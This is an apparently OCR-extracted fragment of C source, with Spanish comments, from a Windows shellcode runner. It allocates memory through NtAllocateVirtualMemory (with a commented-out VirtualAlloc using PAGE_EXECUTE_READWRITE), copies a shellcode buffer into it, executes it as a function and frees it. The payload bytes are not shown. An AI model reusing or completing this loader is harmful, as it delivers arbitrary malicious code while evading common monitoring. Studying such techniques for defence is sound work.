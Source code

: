 ```c
    printf("ptr NtAllocateVirtualMemory: 0x%p\n", exec);

	/*
    PVOID exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (exec == NULL) puts("VirtualAlloc error");
    printf("ptr VirtualAlloc: 0x%p\n", exec);
    */

    memcpy(exec, code, sizeof code); // copiar el shellcode a la nueva memoria reservada
	((void(*)())exec)(); // ejecuta el shellcode

    // liberar memoria reservada:
    Status = NtFreeVirtualMemory(NtCurrentProcess(), &exec, (PSIZE_T)&size_of_code, MEM_RELEASE);
    if (!NT_SUCCESS(Status)) goto exit_free_null;

    FreeLibrary(hNtdll); // liberar la libreria(memoria asociada)
	return EXIT_SUCCESS;

    exit_free_null:
        puts("Error");
        FreeLibrary(hNtdll);
        return EXIT_FAILURE;

}
```

---
